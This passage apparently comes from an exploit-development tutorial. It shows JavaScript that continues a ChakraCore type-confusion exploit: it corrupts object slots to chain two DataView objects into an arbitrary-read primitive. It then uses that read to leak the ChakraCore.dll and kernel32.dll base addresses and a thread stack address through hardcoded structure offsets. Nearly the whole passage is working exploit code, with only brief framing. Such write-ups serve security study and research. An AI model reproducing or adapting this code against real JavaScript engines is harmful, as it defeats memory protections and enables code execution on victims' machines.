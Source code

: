 Here is our updated code, including the stack leak.

```javascript
    (...)truncated(...)

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0x0, true);
    vtableHigh = dataview1.getUint32(0x4, true);

    // Extract dataview2->type (located 0x8 - 0x10) so we can follow the chain of pointers to leak a stack address via...
    // ... type->javascriptLibrary->scriptContext->threadContext
    typeLo = dataview1.getUint32(0x8, true);
    typeHigh = dataview1.getUint32(0xC, true);

    // Print update
    print("[+] DataView object 2 leaked vtable from ChakraCore.dll: 0x" + hex(vtableHigh) + hex(vtableLo));

    // Store the base of chakracore.dll
    chakraLo = vtableLo - 0x1961298;
    chakraHigh = vtableHigh;

    // Print update
    print("[+] ChakraCore.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));

    // Leak a pointer to kernel32.dll from from ChakraCore's IAT (for who's base address we already have)
    iatEntry = read64(chakraLo+0x17c0000+0x40, chakraHigh);     // KERNEL32!RaiseExceptionStub pointer

    // Store the upper part of kernel32.dll
    kernel32High = iatEntry[1];

    // Store the lower part of kernel32.dll
    kernel32Lo = iatEntry[0] - 0x1d890;

    // Print update
    print("[+] kernel32.dll base address: 0x" + hex(kernel32High) + hex(kernel32Lo));

    // Leak type->javascriptLibrary (lcoated at type+0x8)
    javascriptLibrary = read64(typeLo+0x8, typeHigh);

    // Leak type->javascriptLibrary->scriptContext (located at javascriptLibrary+0x450)
    scriptContext = read64(javascriptLibrary[0]+0x450, javascriptLibrary[1]);

    // Leak type->javascripLibrary->scriptContext->threadContext
    threadContext = read64(scriptContext[0]+0x3b8, scriptContext[1]);

    // Leak type->javascriptLibrary->scriptContext->threadContext->stackLimitForCurrentThread (located at threadContext+0xc8)
    stackAddress = read64(threadContext[0]+0xc8, threadContext[1]);

    // Print update
```